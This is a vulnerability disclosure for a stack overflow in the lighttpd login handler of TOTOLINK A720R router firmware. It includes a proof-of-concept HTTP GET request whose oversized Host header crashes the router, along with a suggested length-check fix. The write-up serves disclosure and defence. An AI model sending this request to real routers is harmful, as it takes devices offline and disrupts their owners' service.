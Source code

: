# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Stack Overflow

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an stack overflow vulnerability  in TOTOLINK Technology router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `lighttpd` binary:

In `Form_Login` function, `Host` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `Host` to crash the server.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

Through the dynamic debugging of gdb, as you can see here, the parameter(a1+272) points to the content of the Host. It will cause the function return address to be overwritten.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

**This type of buffer overflow appears in various places in the lighttpd file.(Host: ........)**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. For example, you can limit the length of this field.



## PoC

We set `Host` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa......** , then sending GET request such as:

```http
GET /formLoginAuth.htm?action=login&flag=1 HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: SESSION_ID=2:1591953155:2
Upgrade-Insecure-Requests: 1
```



## Result

The target router crashes and cannot provide services correctly and persistently.


